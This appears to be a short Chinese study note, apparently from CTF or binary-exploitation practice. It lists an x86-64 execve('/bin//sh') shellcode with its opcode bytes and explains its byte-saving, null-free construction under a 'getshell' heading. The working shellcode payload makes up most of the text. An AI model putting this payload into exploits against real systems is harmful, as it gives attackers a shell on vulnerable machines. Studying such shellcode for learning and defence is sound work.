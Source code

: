 # 知识点
```
xor    rsi, rsi                 # 48 31 f6
push   rsi                      # 56
movabs rdi, 0x68732f2f6e69622f  # 48 bf 2f 62 69 6e 2f 2f 73 68
push   rdi                      # 57
push   rsp                      # 54
pop    rdi                      # 5f   
push   0x3b                     # 6a 3b
pop    rax                      # 58
cdq                             # 99
syscall                         # 0f 05
```

-关键优化点
- 指令选择
使用push/pop代替mov减少字节（如设置rdi和rax）。
cltd替代xor edx, edx节省1字节。

- 字符串构造s
8字节对齐的/bin//sh避免空字符。
通过栈操作隐式生成字符串，避免显式存储。

- 零字节规避
所有指令机器码均无\x00，防止截断。


# getshell
![](https://r2.20161023.xyz/pic/20250513120026815.png)